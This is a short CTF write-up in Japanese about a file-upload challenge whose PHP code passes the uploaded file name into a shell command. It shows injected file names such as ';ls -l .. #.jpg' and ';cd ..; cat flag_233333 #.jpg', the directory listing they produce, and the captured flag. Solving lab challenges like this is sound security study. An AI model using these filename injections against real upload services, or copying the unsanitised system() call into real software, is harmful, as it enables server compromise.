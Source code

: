 `system("cat ./upload_b3bb2cfed6371dfeb2db1dbcceb124d3/".$filename." | base64 -w 0");` でファイル名をそのまま OS コマンドに挿入して実行しています。

`;ls -l .. #.jpg` というファイルをアップロードすると、以下のような結果になりました。

```
total 80
drwxr-xr-x  10 root root 4096 Mar 10 21:13 app
drwxr-xr-x   2 root root 4096 Mar 10 13:07 bin
drwxr-xr-x   2 root root 4096 Apr 10  2014 boot
drwxr-xr-x   3 root root 4096 Oct 15  2015 data
drwxr-xr-x   5 root root  340 Mar 10 13:17 dev
drwxr-xr-x 122 root root 4096 Mar 10 13:17 etc
-r--r--r--   1 root root   40 Mar 10 13:08 flag_233333
drwxr-xr-x   3 root root 4096 Mar 10 13:17 home
drwxr-xr-x  14 root root 4096 Jul  8  2015 lib
drwxr-xr-x   2 root root 4096 Jun 12  2015 lib64
drwxr-xr-x   2 root root 4096 Jun 12  2015 media
drwxr-xr-x   2 root root 4096 Apr 10  2014 mnt
drwxr-xr-x   2 root root 4096 Jun 12  2015 opt
dr-xr-xr-x 238 root root    0 Mar 10 13:17 proc
drwx------   2 root root 4096 Mar 11 01:04 root
drwxr-xr-x  20 root root 4096 Mar 10 13:17 run
-rwxr-xr-x   1 root root  781 Mar 10 13:04 run.sh
drwxr-xr-x   2 root root 4096 Jun 12  2015 sbin
drwxr-xr-x   2 root root 4096 Jun 12  2015 srv
dr-xr-xr-x  13 root root    0 Mar 10 03:39 sys
drwxrwxrwt   4 root root 4096 Mar 11 06:36 tmp
drwxr-xr-x  31 root root 4096 Mar 10 13:07 usr
drwxr-xr-x  44 root root 4096 Mar 11 06:25 var
```

`;cd ..; cat flag_233333 #.jpg` をアップロードするとフラグが得られました。

```
file upload success<br />;cd ..; cat flag_233333 #.jpgN1CTF{1d0ab6949bed0ecf014b087e7282c0da}
<img src='data:image/png;base64,N1CTF{1d0ab6949bed0ecf014b087e7282c0da}'></img>
```

```
N1CTF{1d0ab6949bed0ecf014b087e7282c0da}
```